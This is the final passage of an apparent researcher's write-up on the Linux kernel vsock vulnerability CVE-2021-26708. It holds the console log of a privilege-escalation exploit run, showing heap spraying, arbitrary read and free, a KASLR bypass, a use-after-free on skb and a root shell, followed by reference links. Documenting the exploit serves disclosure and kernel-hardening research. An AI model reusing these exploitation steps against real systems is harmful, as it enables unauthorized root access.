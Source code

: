 ```
	save msg_msg ffff9125c25a4640 in msq 12 in slot 1
	save msg_msg ffff9125c25a4780 in msq 22 in slot 2
	save msg_msg ffff9125c3668a40 in msq 78 in slot 3

[+] stage II: arbitrary free msg_msg using corrupted msg_msg
	kaddr for arb free: ffff9125c25a4d00
	kaddr for arb read: ffff9125c2035300
[+] adapt the msg_msg spraying payload:
	msg_ptr 0x7f0d91120fd8
	m_type 1337 at 0x7f0d91120fe8
	m_ts 6096 at 0x7f0d91120ff0
	msgseg next 0xffff9125c2035300 at 0x7f0d91120ff8
[+] go racing, show wins: 

[+] stage III: arbitrary read vsock via good overwritten msg_msg (msq 11)
[+] msgrcv returned 6096 bytes
[+] Found sk_memcg ffff9125c42f9000 (offset 4712 in the leaked kmem)
[+] Found owner cred ffff9125c3fd6e40 (offset 4888 in the leaked kmem)
[+] Found sock_def_write_space ffffffffab9851b0 (offset 4736 in the leaked kmem)
[+] Calculated kaslr offset: 2a000000

[+] stage IV: search sprayed skb near sk_memcg...
[+] checking possible skb location: ffff9125c42fa000
[+] stage IV part I: repeat arbitrary free msg_msg using corrupted msg_msg
	kaddr for arb free: ffff9125c25a4640
	kaddr for arb read: ffff9125c42fa030
[+] adapt the msg_msg spraying payload:
	msg_ptr 0x7f0d91120fd8
	m_type 1337 at 0x7f0d91120fe8
	m_ts 6096 at 0x7f0d91120ff0
	msgseg next 0xffff9125c42fa030 at 0x7f0d91120ff8
[+] go racing, show wins: 0 0 20 15 42 11 
[+] stage IV part II: arbitrary read skb via good overwritten msg_msg (msq 12)
[+] msgrcv returned 6096 bytes
[+] found a real skb

[+] stage V: try to do UAF on skb at ffff9125c42fa000
[+] skb payload:
	start at 0x7f0d91120004
	skb_shared_info at 0x7f0d91120ec4
	tx_flags 0x8
	destructor_arg 0xffff9125c42fa100
	callback 0xffffffffab64f6d4
	desc 0xffff9125c3fd6e53
[+] go racing, show wins: 15 

[+] stage VI: repeat UAF on skb at ffff9125c42fa000
[+] go racing, show wins: 0 12 13 15 3 12 4 16 17 18 9 47 5 12 13 9 13 19 9 10 13 15 12 13 15 17 30 

[+] finish as: uid=0, euid=0
[+] starting the root shell...
uid=0(root) gid=0(root) groups=0(root),1000(a13x) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```


[0]: https://nvd.nist.gov/vuln/detail/CVE-2021-26708
[1]: http://zer0con.org/#speaker-section
[2]: https://youtu.be/EC8PFOYOUgU
[3]: https://elixir.bootlin.com/linux/v5.10/source/net/vmw_vsock/af_vsock.c
[4]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=c0cfa2d8a788fcf45df5bf4070ab2474c88d543a
[5]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=6a2c0962105ae8ceba182c4f616e0e41d7755591
[6]: https://github.com/google/syzkaller/
[7]: https://elixir.bootlin.com/linux/v5.10/source/net/vmw_vsock/virtio_transport_common.c#L490
[8]: https://arxiv.org/abs/2009.01694
[9]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=c518adafa39f37858697ac9309c6cf1805581446
[10]: https://a13xp0p0v.github.io/2017/03/24/CVE-2017-2636.html
[11]: https://cve.mitre.org/cve/request_id.html
[12]: https://seclists.org/oss-sec/2021/q1/107
[13]: https://en.wikipedia.org/wiki/Heap_spraying
[14]: https://googleprojectzero.blogspot.com/2019/11/bad-binder-android-in-wild-exploit.html
[15]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=09fc68dc66f7597bdc8898c991609a48f061bed5
[16]: https://googleprojectzero.blogspot.com/2020/06/a-survey-of-recent-ios-kernel-exploits.html
[17]: https://man7.org/linux/man-pages/man2/msgsnd.2.html
[18]: https://a13xp0p0v.github.io/2020/02/15/CVE-2019-18683.html
[19]: https://duasynt.com/blog/linux-kernel-heap-spray
[20]: https://man7.org/linux/man-pages/man2/msgrcv.2.html
[21]: https://a13xp0p0v.github.io/2017/03/24/CVE-2017-2636.html
[22]: https://www.hermitagemuseum.org/wps/portal/hermitage?lng=en
[23]: https://github.com/a13xp0p0v/linux-kernel-defence-map
[24]: https://community.arm.com/developer/ip-products/processors/b/processors-ip-blog/posts/enhancing-memory-safety
[25]: https://grsecurity.net/
[26]: https://a13xp0p0v.github.io/2020/11/30/slab-quarantine.html
[27]: https://github.com/a13xp0p0v/kconfig-hardened-check#questions-and-answers